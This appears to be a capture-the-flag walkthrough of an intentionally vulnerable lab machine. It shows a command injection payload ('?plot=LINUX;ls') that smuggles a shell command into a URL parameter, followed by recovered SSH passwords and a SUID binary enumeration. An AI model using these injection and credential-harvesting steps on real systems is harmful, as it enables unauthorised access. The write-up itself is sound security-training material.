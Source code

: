 <img src="https://imgur.com/i58lDNP.png"/>

On this page run commands like this `?plot=LINUX;ls` this will show the files in that directory and we can read  `log.txt`

From that file we can find ssh credentials

```
basterd:superduperp@$$
```

## PORT 55007 (SSH)

<img src="https://imgur.com/NpbyE0y.png"/>

On viewing `backup.sh` we can find `stoner`'s password `superduperp@$$no1knows`

<img src="https://imgur.com/QPwReOp.png"/>


Checking for SUID we found

```
stoner@Vulnerable:/home/basterd$ find / -perm /4000 2>/dev/null                                                                                     
/bin/su                                                                   
/bin/fusermount                                                                                                                                     
/bin/umount                                                                                                                                         
/bin/mount                                                                                                                                          
/bin/ping6                                                                                                                                          
/bin/ping                                                                                                                                           
/usr/lib/policykit-1/polkit-agent-helper-1                                                                                                          
/usr/lib/apache2/suexec-custom                                                                                                                      
/usr/lib/apache2/suexec-pristine                                                                                                                    
/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                                         
/usr/lib/openssh/ssh-keysign                                                                                                                        
/usr/lib/eject/dmcrypt-get-device                                                                                                                   
/usr/bin/newgidmap                                                                                                                                  
/usr/bin/find                                                                                                                                       
/usr/bin/at                                                                                                                                         
/usr/bin/chsh                                                                                                                                       
/usr/bin/chfn                                                                                                                                       
/usr/bin/passwd                                                                                                                                     
/usr/bin/newgrp                                                                                                                                     
/usr/bin/sudo                                                                                                                                       
/usr/bin/pkexec                                                                                                                                     
```